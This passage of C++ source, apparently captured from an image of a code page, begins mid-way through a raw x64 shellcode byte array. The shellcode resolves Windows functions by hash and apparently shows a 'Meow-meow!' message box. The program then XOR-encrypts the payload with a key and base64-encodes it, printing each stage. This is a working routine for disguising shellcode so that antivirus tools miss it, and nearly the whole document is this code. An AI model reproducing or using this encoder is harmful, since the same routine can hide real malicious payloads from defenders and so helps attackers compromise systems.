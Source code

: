 ```cpp
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  DWORD my_payload_len = sizeof(my_payload) - 1;
  DWORD out_len = 0;

  printf("original:\n");
  for (size_t i = 0; i < my_payload_len; i++) {
    printf("\\x%02x", my_payload[i]);
  }
  printf("\n\n");

  XOR((char *) my_payload, my_payload_len, my_secret_key, sizeof(my_secret_key));

  printf("xored:\n");
  for (size_t i = 0; i < my_payload_len; i++) {
    printf("\\x%02x", my_payload[i]);
  }
  printf("\n\n");

  CryptBinaryToString((BYTE*)my_payload, my_payload_len, CRYPT_STRING_BASE64 | CRYPT_STRING_NOCRLF, NULL, &out_len);

  // allocate memory for the base64-encoded shellcode
  char* encoded = (char*)malloc(out_len);
  if (!encoded) {
    printf("error: failed to allocate memory for base64-encoded shellcode.\n");
    return 1;
  }

  // call CryptBinaryToString again to perform the encoding
  if (!CryptBinaryToString((BYTE*)my_payload, my_payload_len, CRYPT_STRING_BASE64 | CRYPT_STRING_NOCRLF, encoded, &out_len)) {
    printf("error: failed to base64-encode shellcode.\n");
    return 1;
  }

  printf("base64-encoded shellcode:\n%s\n", encoded);
  free(encoded);
  
  return 0;
}
```
